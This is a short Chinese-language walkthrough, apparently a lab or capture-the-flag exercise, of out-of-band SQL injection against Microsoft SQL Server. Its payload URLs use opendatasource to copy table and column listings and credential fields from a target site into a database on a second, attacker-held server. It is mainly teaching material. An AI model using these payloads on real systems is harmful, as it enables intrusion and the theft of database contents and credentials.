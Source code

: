 

## 反弹注入

### 创建本地反弹信息收集表

```sql
create table table_temp( id int, name VARCHAR(255) )
```

### 1. 反弹表信息

```
http://59.63.200.79:8015/?id=1'; insert into opendatasource('sqloledb','server=SQL5095.example.net,1433;uid=DatabaseName_admin;pwd=DatabasePassword;database=DatabaseName').DatabaseName.dbo.table_temp select id,name from sysobjects where xtype='U' -- gg

```

![](https://nc0.cdn.zkaq.cn/md/8461/845423a1e76c3217a616eea60e51d10d_99574.png)

获取到所有用户表信息

### 反弹列信息

根据 admin 表信息，反弹其所有列信息。

```sql
create table column_temp (tableid int, colid int, name varchar(255), xtype int )
```

```bash
http://59.63.200.79:8015/?id=1'; insert into opendatasource('sqloledb','server=SQL5095.example.net,1433;uid=DatabaseName_admin;pwd=DatabasePassword;database=DatabaseName').DatabaseName.dbo.column_temp select id,colid,name,xtype from syscolumns where id=1977058079 -- gg
```

![](https://nc0.cdn.zkaq.cn/md/8461/cd729b8a20d78b88a55a2a14221ce010_16848.png)


### 反弹字段信息

根据列 `xtype` 信息， 创建数据表。

此处 id 一般为自增ID，在创建时可以忽略，避免插入时主键冲突。

```sql
create table value_temp (username varchar(255), passwd char(255) , token char(255))

```

** GET FLAG**
![](https://nc0.cdn.zkaq.cn/md/8461/54c6b3613e478f09d4847cd579817d80_24812.png)

done

